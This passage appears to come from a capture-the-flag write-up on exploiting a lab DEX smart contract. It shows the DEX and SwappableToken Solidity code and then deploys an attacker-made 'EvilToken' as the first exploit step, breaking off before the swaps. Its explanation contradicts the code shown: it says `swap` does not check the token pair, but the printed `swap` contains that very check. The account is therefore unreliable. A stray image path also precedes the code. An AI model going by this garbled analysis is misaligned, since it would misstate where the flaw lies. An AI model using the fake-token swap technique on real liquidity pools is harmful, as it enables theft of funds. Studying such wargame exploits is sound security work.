 ```solidity
  function addLiquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }

  function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  }

  function getSwapPrice(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableToken(token1).approve(msg.sender, spender, amount);
    SwappableToken(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableToken is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public returns(bool){
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}
```

The vulnerability here arises from `swap` method which does not check that the swap is necessarily between `token1` and `token2`. We'll exploit this.

Let's deploy a token - `EvilToken` in Remix, with initial supply of 400, all given to `msg.sender` which would be the `player`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract EvilToken is ERC20 {
    constructor(uint256 initialSupply) ERC20("EvilToken", "EVL") {
        _mint(msg.sender, initialSupply);
    }
}
```
